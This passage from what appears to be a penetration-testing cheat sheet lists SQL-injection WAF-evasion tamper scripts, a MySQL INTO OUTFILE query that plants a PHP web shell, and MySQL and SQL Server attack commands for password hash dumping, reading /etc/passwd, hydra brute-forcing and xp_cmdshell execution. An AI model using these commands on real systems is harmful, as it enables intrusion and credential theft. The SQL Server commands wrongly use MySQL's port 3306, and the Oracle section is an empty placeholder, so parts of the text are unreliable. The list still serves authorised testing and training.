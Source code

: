     - `space2mssqlblank`  
      Replaces (MsSQL) instances of space character with a random blank character from a valid set of alternate characters
    - `space2plus`  
      Replaces space character with plus (`+`)
    - `space2randomblank`  
      Replaces space character with a random blank character from a valid set of alternate characters
    - `symboliclogical`  
      Replaces `AND` and `OR` logical operators with their symbolic counterparts (`&&` and `||`)
    - `versionedkeywords`  
      Encloses each non-function keyword with (MySQL) versioned comment
    - `versionedmorekeywords`  
      Encloses each keyword with (MySQL) versioned comment  

#### MySQL access to remote code execution (RCE)

 - `SELECT '<?php echo system($_GET["c"]) ?>' INTO OUTFILE '/var/www/html/upload/shell.php' FROM mysql.user LIMIT 1`

#### 4.7.5.1 Testing for Oracle

❗❗❗MISSING❗❗❗

#### 4.7.5.2 Testing for MySQL

 - `mysql -h 1.2.3.4`
 - `mysql -h 1.2.3.4 -u user`
 - `mysql -h 1.2.3.4 -u user -p`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_writeable_dirs`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_hashdump`
 - **msf5>** `use auxiliary/scanner/mysql/mysql_login`
 - **mysql [dvwa]>** `select load_file('/etc/passwd')`
 - `nmap -p 3306 1.2.3.4 --script mysql-empty-password`
 - `nmap -p 3306 1.2.3.4 --script mysql-info`
 - `nmap -p 3306 1.2.3.4 --script mysql-audit --script-args "mysqluser=root,mysqlpass=password1"`
 - `nmap -p 3306 1.2.3.4 --script mysql-variables --script-args "mysql-audit.username=root, mysql-audit.password=password1, mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit"`
 - `nmap -p 3306 1.2.3.4 --script mysql-dump-hashes --script-args "username=root, password=password1"`
 - `hydra -L users.txt -P rockyou.txt 1.2.3.4 mysql`

#### 4.7.5.3 Testing for SQL Server

 - `nmap -p 3306 1.2.3.4 --script ms-sql-info`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-empty-password`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-ntlm-info --script-args "mssql.instance-port=1433"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-ntlm-info --script-args "mssql.instance-port=1433"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-dump-hashes --script-args "mssql.username=admin, mssql.password=password1"`
 - `nmap -p 3306 1.2.3.4 --script ms-sql-xp-cmdshell --script-args "mssql.username=admin, mssql.password=password1, ms-sql-xp-cmdshell.cmd='ipconfig /all'"`
 - **msf5>** `use auxiliary/scanner/mssql/mssql_login`
 - **msf5>** `use auxiliary/scanner/mssql/mssql_hashdump`
 - **msf5>** `use auxiliary/admin/mssql/mssql_exec`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum_sql_logins`
 - **msf5>** `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
